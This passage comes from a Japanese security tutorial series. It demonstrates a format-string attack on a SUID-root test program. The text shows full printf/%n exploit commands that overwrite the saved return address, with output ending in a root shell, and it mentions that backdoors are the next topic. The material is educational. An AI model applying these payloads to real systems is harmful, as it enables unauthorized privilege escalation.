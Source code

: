 \-\-\-\-\-
newbie@Glazheim:knoppix$ ./game.exe \`printf "\x5c\xf9\xff\xbfJUNK\x5d\xf9\xff\xbfJUNK\x5e\xf9\xff\xbfJUNK\x5f\xf9\xff\xbf"\`%x.%x.%x.%x.%x.%x.%214x.%n.%215x.%n.%260x.%n.%190x.%n
[debug]addr of score \= bffff95c
[debug]addr of payload \= bffff920
Score of \鐃緒申UNK]鐃緒申UNK^鐃緒申UNK_鐃緒申ffffb3b.1.bffff894.4d532038.532050.b7eb116c. 1.. 4b4e554a.. 4b4e554a.. 4b4e554a. is \-1073743584(bffff920)!! 
\-\-\-\-\-

　0xbffff920の生成手順は先述の通り、桁あふれを利用して生成します。score内
に正常に生成できていることが確認できました。

●権限奪取

　それでは、bffff96c番地を0xbffff920に書き換えてみましょう。先ほどの入力
のうち、アドレス部分を書き換えればOKです。game.exeはSUIDビットが立ってい
て、所有者がrootになっています。

\-\-\-\-\-
newbie@Glazheim:knoppix$ ./game.exe \`printf "\x6c\xf9\xff\xbfJUNK\x6d\xf9\xff\xbfJUNK\x6e\xf9\xff\xbfJUNK\x6f\xf9\xff\xbf"\`%x.%x.%x.%x.%x.%x.%230x.%n.%199x.%n.%260x.%n.%190x.%n
[debug]addr of score \= bffff95c
[debug]addr of payload \= bffff920
Score of l鐃緒申UNKm鐃緒申UNKn鐃緒申UNKo鐃緒申ffffb3b.1.bffff894.4d532038.532050.b7eb116c. 1.. 4b4e554a.. 4b4e554a.. 4b4e554a. is 0(0)!!
sh\-3.00\# whoami
root
\-\-\-\-\-

　root権限が奪取できていることが確認できました。このように、SEIPをペイロ
ードの先頭に書き換えることができれば、BOFの時と同じように制御がペイロード
に移ります。今回はペイロードの格納先として、プログラム内の配列を用いまし
たが、環境変数に格納したペイロードに制御を移すことも可能です。これについ
てはまたいずれ、時間があるときに触れたいと思います。


### 0x06 おわりに

　いかがでしたでしょうか。フォーマットストリング攻撃でも任意のプログラム
を実行できることをご理解いただけたと思います。かなり危険なバグですが、妙
な入力が行われない限り通常どおり出力されるため、発見が難しいバグです。
　さて、今回まででBOFとフォーマットストリング攻撃という2大攻撃手法を用い
てroot権限を奪取する実証を行ってきました。現在流行している、ひと通りのハ
ッキング手法を軽く解説しましたので、次回は少し侵入系のトピックスから離れ
て見ます。次回はバックドア（裏口作成）について解説したいと思います。



***

\-\-\- 第5章: 逆アセンブルコードを読んでみよう \-\-\-

著者：Kenji Aiko

***

